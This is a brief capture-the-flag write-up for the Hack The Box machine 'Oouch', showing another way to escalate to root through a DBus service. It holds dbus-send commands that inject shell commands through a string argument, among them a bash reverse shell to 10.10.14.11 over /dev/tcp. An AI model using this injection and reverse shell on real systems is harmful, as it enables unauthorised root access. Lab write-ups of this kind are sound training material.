 # Alternative way to exploit Oouch

## Privilege Escalation to root

After getting to the user _www-data_ there is another way to interact with **DBus** instead of using the Python commands.
```
busctl introspect htb.oouch.Block /htb/oouch/Block
```

Sending commands with dbus commands:
```
dbus-send --system --print-reply --dest=htb.oouch.Block /htb/oouch/Block htb.oouch.Block.Block string:'; ping -c 1 10.10.14.11 #'
```

This way can be used to gain a reverse shell connection as root:
```
dbus-send --system --print-reply --dest=htb.oouch.Block /htb/oouch/Block htb.oouch.Block.Block string:"; bash -c 'bash -i >& /dev/tcp/10.10.14.11/9003 0>&1 #'"
```
